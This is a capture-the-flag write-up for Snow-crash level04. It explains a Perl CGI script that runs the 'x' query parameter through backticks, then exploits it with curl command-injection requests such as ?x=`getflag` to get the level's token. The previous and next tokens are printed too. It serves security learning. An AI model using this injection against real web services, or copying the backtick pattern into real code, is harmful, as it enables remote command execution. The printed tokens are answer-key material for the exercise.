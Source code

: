 ```yaml
---
title:  "Snow-crash Level04"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
---
```


#### 1. The password of `level04` is the token that got from `level03`.

```
qi0maab88jeaj46qoumi7maus

```
#### 2. So, try login to `level04` with the password we got from `level03` and try to put the command 'ls -la'. We can see the file 'level04'. 
```
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
#### 3. Let's go inside in level04. 
```
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.23",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html
```

We can see A file with `.pl` extension. 

So, what is a PL file? 

A file with .pl extension is a `Perl Script` file that is a scripting language. 

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This is a simple `CGI(Common Gateway Interface) script` that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the `echo` commmand.

<details>
<summary> Note: What is CGI?  </summary>
<br>
What is CGI? : CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases.
</details>


<details>
<summary> Note: What is query?  </summary>
<br>
In the context of the Perl CGI script provided, the "query" refers to the string of parameters and their values that are passed to the script through the URL when it is accessed.
<br><br>
This string typically follows a question mark (?) in the URL and consists of key-value pairs separated by ampersands (&).
<br><br>
For example, if you access the script via a URL like this:
<br><br>

http://example.com/cgi-bin/script.cgi?x=ls%20-l

<br><br>
In this URL, the query string is x=ls%20-l. Here, x is the parameter name, and ls%20-l is its value. The %20 is a URL-encoded representation of a space character.
<br><br>
So, in this example, the query is x=ls%20-l, where the parameter x is assigned the value ls -l. When the Perl CGI script is executed with this query, it retrieves the value of the x parameter (ls -l in this case) and executes it as a command.
</details>


<details>
<summary> Details for the perl script </summary>
<br>

1. `#!/usr/bin/perl`: This is a hashebang line specifying the path to the Perl interpreter to be used to execute this script.
<br><br>

2. `use CGI qw{param};`: This line imports the param function from the CGI module. The param function is used to retrieve the values of parameters from the query string.
<br><br>

3. `print "Content-type: text/html\n\n";`: This line sends an HTTP header indicating that the content is of type "text/html". The double newline (\n\n) separates the header from the body.
<br><br>

4. `sub x { ... }`: This defines a subroutine (function) named "x". It takes one parameter and assigns its value to the variable $y.
<br><br>

5. `$y = $_[0];`: This line assigns the value of the first (in this case, only) argument passed to the subroutine to the variable $y.
<br><br>

6. `print echo $y 2>&1;`: This line prints the result of the command specified in $y. Backticks (``) are used to execute the command, and `2>&1` redirects both standard output and standard error to the output. This is a common technique to capture both normal output and error messages.
<br><br>

7. `x(param("x"));`: This line calls the subroutine "x" using the value of the "x" parameter from the query string.
<br><br>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.
<br>
</details>


We can see another interesting thing in that perl script.
The script indicates that 

```
# localhost:4747
```

Maybe, there is something on the port 4747. 

#### 4. Let's check on the port 4747. 

`nc -zv` allows to check connection to 4747 without sending any data and verbose mode.

<details>
<summary> What is 'nc' command in Linux </summary>
<br>
1. nc : This is the command itself, which is short for "netcat." Netcat is a versatile networking utility for reading from and writing to network connections using TCP or UDP protocols.
<br>
2.  -z: This option tells nc to scan for open ports rather than initiating a data transfer. When used with the -v option, it prints verbose output, indicating whether the connection was successful or not.
<br>
3.  -v: This option stands for "verbose" and instructs nc to provide more detailed output, including the status of each connection attempt.
<br>
So, when you run nc -zv, you are instructing Netcat to attempt to connect to a specified host and port without sending any data (-z), while also providing verbose output (-v) to show the result of each connection attempt. This is commonly used for port scanning to check if a port on a remote system is open or closed.
<br>
</details>
<br>

```
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```

#### 5. Now, combine numbers 3 and 4 and  let’s send data using the `x parameter` and `port 4747` with `curl` command.


```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```

We got the `Flag04` with the whoami parameter.

Maybe we can try again with x parameter with getflag. And here we go, we got the flag :)
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


#### 6. We got a token for next level05

```
ne2searoevaevoem4ov4ar8ap
```
